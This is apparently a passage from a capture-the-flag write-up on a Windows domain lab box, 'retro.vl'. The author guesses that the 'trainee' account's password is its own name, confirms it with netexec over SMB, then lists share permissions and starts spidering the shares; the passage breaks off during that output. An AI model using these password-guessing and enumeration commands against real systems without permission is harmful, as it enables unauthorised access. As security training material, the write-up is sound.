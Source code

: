 As we see, there’s a `trainee` user, which is probably the user that was referred to in the note.

As we saw from the note, the users did not want a hard password, and the admins were fed up with resetting passwords, it’s safe to guess that this account has a fairly simple password, let’s the the account name itself.

```powershell
└─$ netexec smb $(cat ip) -u "trainee" -p "trainee"         
SMB         10.129.26.138   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False) 
SMB         10.129.26.138   445    DC               [+] retro.vl\trainee:trainee
```

And it worked !

# Privilege Escalation # 1: Gaining Access to a Domain Computer Account

The first thing I do usually after gaining the first pair of credentials is enumerating bloodhound. But I got 0 benefits out of this. So I decided to go back to point 0 and re-start enumerating shares to see if I have more permissions.

```powershell
└─$ netexec smb $(cat ip) -u "trainee" -p "trainee" --shares                                                                                                            
SMB         10.129.26.138   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)                    
SMB         10.129.26.138   445    DC               [+] retro.vl\trainee:trainee                                                                                        
SMB         10.129.26.138   445    DC               [*] Enumerated shares                                                                                               
SMB         10.129.26.138   445    DC               Share           Permissions     Remark                                                                              
SMB         10.129.26.138   445    DC               -----           -----------     ------                                                                              
SMB         10.129.26.138   445    DC               ADMIN$                          Remote Admin                                                                        
SMB         10.129.26.138   445    DC               C$                              Default share
SMB         10.129.26.138   445    DC               IPC$            READ            Remote IPC
SMB         10.129.26.138   445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.26.138   445    DC               Notes           READ            
SMB         10.129.26.138   445    DC               SYSVOL          READ            Logon server share 
SMB         10.129.26.138   445    DC               Trainees        READ
```

As we can see, the new user had `READ` permissions on a lot more shares, so I ran `spider_plus` to see what those shares hold

```powershell
└─$ netexec smb $(cat ip) -u "trainee" -p "trainee" -M spider_plus
SMB         10.129.26.138   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False) 
SMB         10.129.26.138   445    DC               [+] retro.vl\trainee:trainee 
SPIDER_PLUS 10.129.26.138   445    DC               [*] Started module spidering_plus with the following options:
SPIDER_PLUS 10.129.26.138   445    DC               [*]  DOWNLOAD_FLAG: False
SPIDER_PLUS 10.129.26.138   445    DC               [*]     STATS_FLAG: True
SPIDER_PLUS 10.129.26.138   445    DC               [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_PLUS 10.129.26.138   445    DC               [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_PLUS 10.129.26.138   445    DC               [*]  MAX_FILE_SIZE: 50 KB
SPIDER_PLUS 10.129.26.138   445    DC               [*]  OUTPUT_FOLDER: /home/kali/.nxc/modules/nxc_spider_plus
SMB         10.129.26.138   445    DC               [*] Enumerated shares
SMB         10.129.26.138   445    DC               Share           Permissions     Remark
SMB         10.129.26.138   445    DC               -----           -----------     ------
```